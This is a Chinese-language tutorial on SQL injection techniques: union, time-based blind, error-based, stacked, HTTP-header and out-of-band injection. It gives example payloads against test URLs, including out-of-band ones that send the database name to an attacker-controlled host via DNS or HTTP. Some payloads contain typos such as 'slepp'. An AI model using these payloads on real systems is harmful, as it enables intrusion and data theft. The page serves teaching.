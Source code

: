 联合查询注入（使用UNION关键字来拼接自己想要执行的SQL语句）

基于时间延迟注入（通过判断请求响应的时间来得到想要的信息，盲注，当页面不会提供报错信息时，布尔型注入也无效时采用）

https://webtest.xiaochenabc123.test.com/?id=1' and slepp(5)--

slepp函数的作用是当sql语句执行完成后等待指定秒数再去返回执行结果，通过感觉时间来确定该语句是否正常执行


报错型注入（如果页面可以返回sql报错信息时使用，通过报错信息中获取数据）




多语句查询型注入（当页面可以执行多条SQL语句时）

例如：https://webtest.xiaochenabc123.test.com/?id=1; SELECT * FROM test where id =1--

多语句查询型注入可以使用时，很大可能UPDATA数据库更新或者删除数据库可以触发



HTTP头注入

利用http请求头，当web服务器需要从http请求头中获取信息到数据库中时（针对不进行过滤审查就直接进行数据库操作时）

通过http请求工具，例如postman或者burpsuite，修改请求头，重放攻击

User-Agent: abc', (SELECT database()) --




堆叠注入（多条sql命令一起执行）

使用;结束当前sql命令后继续执行下一条sql命令

联合注入和堆叠注入区别：联合注入只能进行查询操作（取决于sql命令的拼接头是查询还是更新还是删除，或者插入），而堆叠注入可以执行任意sql命令

一般实质环境中堆叠注入用不到（可以会出现权限问题），但是一用到就威力无穷



OOB注入（out of band，带外通道技术）


通过生成请求体来攻击，目标服务器接收到恶意的请求体后，进一步处理，处理的过程中目标服务器可能要向外部发送请求或者向外部获取资源，而这个外部实质是攻击者控制的服务器，在进行外部的请求时，将数据一起发送给攻击者控制的服务器，最后在攻击者控制的服务器查看数据（例如：通过dns记录来显示）


https://test1.xiaochenabc123.test.com/?id=1' and SELECT CONCAT('\\\\',(SELECT database(),'.test2.xiaochenabc123.test.com');

https://test1.xiaochenabc123.test.com/?id=1' and  SELECT LOAD_FILE(CONCAT('\\\\',(SELECT database(),'.test2.xiaochenabc123.test.com'));

最后在DNS记录中查看到想要的数据，上面的例子是获取当前的数据库名


利用HTTP协议来OOB注入


https://test1.xiaochenabc123.test.com/?id=1' and  SELECT UTL_HTTP.REQUEST(https://test2.xiaochenabc123.test.com/test.php '||'?id='||(SELECT database())) FROM dual;

上面的例子是通过https://test2.xiaochenabc123.test.com的test.php记录传递的数据，并且写入到test.txt中


混淆和绕过
